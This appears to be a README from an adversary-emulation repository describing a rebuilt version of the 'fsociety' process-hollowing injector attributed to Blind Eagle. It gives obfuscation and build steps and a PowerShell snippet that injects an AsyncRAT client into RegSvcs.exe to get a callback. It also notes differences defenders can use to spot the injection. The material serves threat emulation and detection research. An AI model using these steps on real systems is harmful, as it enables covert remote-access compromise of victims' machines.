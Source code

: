 # fsociety DLL

## Overview

fsociety DLL is an injector that Blind Eagle has used in operations<sup>[1](https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia),[2](https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/)</sup>. fsociety is a single program written in C# that leverages process hollowing to inject a payload into another program - usually RegSvcs.exe or RegAsm.exe. The original source code has been rewritten in a de-obfuscated fasion for readability<sup>[3](https://otx.alienvault.com/indicator/file/03b7d19202f596fe4dc556b7da818f0f76195912e29d728b14863dda7b91d9b5)</sup>. The de-obfuscated code shares many similarities with the [Lime-Crypter](https://github.com/NYAN-x-CAT/Lime-Crypter/blob/master/Lime-Crypter/Resources/Stub.cs) implementation of RunPE, however the threat actor has added some wrappers for windows APIs in addition to importing them.

## Usage

fsociety is downloaded and ran by `fiber.dll` as part of the infection chain. prior to running, `fsociety.dll` is manipulated by the threat actor to be base64 encoded, have all `A`s replaced with a Unicode string, and then reversed. The utility `file-ops.py` has been created in the Util folder to assist in replicating the obfuscation of the binary for delivery.

Windows:

```PowerShell
py.exe ./file-ops.py -f path\to\repo\birdsofprey\Resources\Efsociety\Efsociety\bin\Release\Efsociety.dll
```

Linux/Mac:

```bash
python3 ./file-ops.py -f path/to/repobirdsofprey/Resources/Efsociety/Efsociety/bin/Release/Efsociety.dll
```

## Troubleshooting

Sometimes injection does not work on the first try and an implant will not succeed. If this happens verify that the target path exists: `C:\Windows\Microsoft.NET\Framework\v4.0.3819\RegSvcs.exe` and that the PE being injected is set up in the proper format with `file-ops.py`

## Testing

To verify that `fsociety.dll` is injecting properly it can be tested from a PowerShell prompt with either an AsyncRAT payload OR another payload of your choosing. To do this first follow the instructions in [AsyncRAT README](../../AsyncRAT-C%23/README.md) to build the server and create a client with instructions in [AsyncRAT Client README](../../AsyncRAT-C%23/Client/README.MD).

Once the server is running you can use the following PowerShell to test `fsociety.dll` filling in the paths with ones specific to your system:

```PowerShell
 $assembly = [Reflection.Assembly]::LoadFile("c:\path\to\repo\birdsofprey\Resources\Efsociety\Efsociety\bin\Release\Efsociety.dll")
 $bytes = [System.IO.File]::ReadAllBytes("c:\path\to\payload\AsyncRAT-Client.exe")
 [fsociety.Tools]::Ande("C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\RegSvcs.exe", $bytes)
```

If successful you should receive a callback from the AsyncRAT client on the server and when hovering the mouse over the client see that the Path values is `C:\Windows\Microsoft.NET\Framwork\v4.0.3819\RegSvcs.exe` indicating that AsyncClient is living in the legitimate RegSvcs.exe process:

![injected-client](../../Screenshots/injected-client-path.png)

Likewise a tool such as Process Hacker will show the AsyncClient assembly loaded into RegSvcs.exe with the path showing the path to RegSvcs.exe:

![Process-Hacker-injected-client](../../Screenshots/async-client-loaded-regsvcs.png)

Likewise if you look at the modules and method tables associated with the legitimate RegSvcs.exe and the injected RegSvcs.exe you can spot many differences - including the Image Size and Resource Tables information. The method tables are completely different for the injected RegSvcs.exe vs the legitimate version

Normal RegSvcs.exe modules

![normal](../../Screenshots/legit-regsvcs-modules.png)

Injected RegSvcs.exe modules

![injected](../../Screenshots/regsvcs-injected-modules.png)

Normal RegSvcs.exe Method Table

![normal](../../Screenshots/legit-method-table.png)

Injected RegSvcs.exe Method Table

![injected](../../Screenshots/injected-method-table.png)

## Build

Two build options are presented. The CLI can be used with devenv.exe to build the `fsociety.sln` solution. Also instructions for the Visual Studio GUI are also included:

### CLI

```PowerShell
PS C:\<path>\<to>\birdsofprey\Resources\Efsociety> 'C:\Program Files | [x86]\Microsoft Visual Studio\<version>\<Professional|blank>\Common7\IDE\devenv.exe' fsociety.sln /Build "Release"
```

### GUI

1) Open Solution in Visual Studio - this option is presented upon Visual Studio opening

    ![open](../../Screenshots/open-solution.png)

    ![asyncrat-sln](../../Screenshots/fsociety-sln.png)

2) In the menu bar near the top of the window, change the dropdown from Debug to Release - this will build and remove any debugging assistance from the project:

    ![debug->release](../../Screenshots/asyncrat-vs-build-release.png)

3) In the menu bar at the top of the window, select Build -> Build Solution. The completed executables will be located in `birdsofprey\Resources\Efsociety\bin\Release`

    ![build](../../Screenshots/asyncrat-vs-build-solution.png)

## References and CTI

1) <https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia>

2) <https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/>

3) <https://otx.alienvault.com/indicator/file/03b7d19202f596fe4dc556b7da818f0f76195912e29d728b14863dda7b91d9b5>
